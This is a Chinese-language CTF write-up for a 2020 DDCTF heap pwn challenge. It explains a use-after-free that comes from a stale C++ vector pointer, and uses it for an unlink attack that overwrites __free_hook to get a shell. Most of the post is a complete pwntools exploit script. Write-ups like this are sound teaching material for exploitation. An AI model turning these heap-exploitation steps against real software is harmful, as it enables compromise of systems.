 ```yaml
---
layout: post
title: Unlink 使用技巧
description: 本题是2020DDCTF—PWN题，看了网上大多数都是用unsorted-bin-attack覆盖虚表，然后找到了一个师傅用的是unlink来getshell，所以特此记录一下
categories: CTF/pwn


---
```






<!-- more -->

# 前言

该题运用的是C++ vector机制的漏洞，当vector未放入数据的话，会按照0x20、0x30、0x50、0x90……来分配和释放内存，这个机制本身可以实现vector来管理内存，不用让开发者担心内存管理的问题，但是如果开发者不了解这些机制，并且将vector的内存地址保存在某个地址未做及时更新的话，那么我们就可以利用这个机制来实现很多操作！

# 题目逻辑分析

堆菜单题：

![unlink1](/images/character6/unlink.png)





Add:往vector push一个数据

Show:

获取原来的bss地址作为iterator对象存放在0x605380+0x18的位置

vector.push(0xaabbccdd)

然后将新的堆块的数据地址-8存放在0x605380+0x20的位置

开始展示数据并询问是否修改

由于新旧的堆块地址不同，所有就有UAF那味道了

![unlink1](/images/character6/show.png)

clear():清理vector，但是不会清除堆块的内容



# EXP编写

思路：先添加9个数据，使得分配一个unsorted_bin，然后clear，利用UAF来leak libc_base的地址

​            后面通过在堆上布置一些数据，防止绕过一些检查

​			然后再添加8个数据,接着通过push 0xaabbccdd添加一个数据使得给vector分配一个unsorted bin

​            通过修改这个bin的内容来unlink

​            具体表示：

​             -0x10   ----prev_size.      #1

​             0x90     ---- size (prev_inuse=0) #

​              0.          ---- prev_size #2

​              0x21    -----  size #

​              Target_addr-0x18 ---fd 

​              Target_addr-0x10 ----bk 

​              0x20 --   fake_prev_size

​     		修改完之后，iterator和heap_addr的地址是指向这个3的，当再添加到16个数据的时候,show会释放掉堆块也就是释放了chunk1，这时unlink检查prev_use == 0 则chunk2 = chunk1+prev_size->chunk2,检查到 fake_prev_size == size 和fd与bk之后发生unlink.

​             这时bss_heap_pool_addr就会指向自己,通过修改bss_heap_pool就可以实现任意地址写,将__free_hook-8和____free_hook改成/bin/sh（这里是字符串)和&system即可getshell

```python
#https://github.com/matrix1001/welpwn

from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))

    debugg = 1
    logg = 1

    ctx.binary = './pwn1'
    ctx.remote_libc = './libc-2.23.so'
    
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.

    #ctx.breakpoints = [0x401131,0x40114d,0x40122B]
    ctx.symbols = {'pool':0x605380}
    #ctx.debug()
    if debugg:
    	rs()
    else:
        ctx.remote = ('1.1.1.1', 1111)
        rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    # rs('remote') # uncomment this for exploiting remote target

    libc = ctx.libc # ELF object of the corresponding libc.
    
    def Choice(num):
    	sla('>>',num)
    def Add(content):
    	Choice(1)
    	sla('num:',content)
    def Edit_target(flag='n',recv='n',content=None,size=0):
    	res = None
    	target_heap_addr = None
    	if recv == 'y':
    	    ru(':')
    	    res = int(r(size))
    	    #log.success('targer_addr:%s'%target_heap_addr)
    	sla('Edit (y/n):',flag)
    	#res = None
    	if flag == 'y':	
    		sleep(0.1)
    		sl(content)
    	return res
    def Clear():
    	Choice(3)
    def Show():
    	Choice(2)

    bss_addr = 0x605380

    Add(123)
    Add(123)
    Show()
    heap_addr = Edit_target('n','y',size = 8)
    for i in range(5):
    	Edit_target()
    for i in range(7):
    	Add(123)

    Clear()
    Add(123)
    Show()
    Edit_target()
    leak_addr = Edit_target('n','y',size=15)
    #dbg()
    log.success('heap_addr:%s'%hex(heap_addr))
    log.success('leak_addr:%s'%hex(leak_addr-0x6cdb78))
    libc_base = leak_addr-0x6cdb78
    free_hook = libc_base + 0x6cf7a8
    system  = libc_base + 0x34e3a0
    for i in range(3):
        Edit_target()
    #Show()
    #Add(123)
    #Add(123)
    Clear()
    for i in range(17):
    	Add(0x21)
    Clear()
    
    for i in range(8):
    	Add(0x20)
    #dbg()
    #raw_input()
    Show()
    for i in range(8):
    	Edit_target()
    Edit_target('y','n',-0x10)
    Edit_target('y','n',0x90)
    Edit_target('y','n',0)
    Edit_target('y','n',0x21)
    Edit_target('y','n',0x605398-0x18)
    Edit_target('y','n',0x605398-0x10)
    for i in range(4):
    	Edit_target()
    for i in range(7):
    	Add(0x20)
    #raw_input()
    Show()
    #dbg()
    #raw_input()
    Edit_target('y','n',free_hook - 8)
    Edit_target('y','n',free_hook + 8)
    Edit_target('y','n',0)
    Edit_target('y','n',0x605398)
    Edit_target('y','n',0x6053A8)
    dbg()
    raw_input()
    Show()
    Edit_target('y','n',0x68732F6E69622F)  #/bin/sh
    Edit_target('y','n',system)
    Clear()
    irt()
  
```



# 总结

1.unlink技巧:

Prev_size为负数且chunk1-(-prev_size)=chunk2

size->prev_use为0

chunk2->size->prev_use=0

chunk2->next_chunk->prev_inuse = chunk2->size

2.通过修改__free_hook-8和_free_hook为system

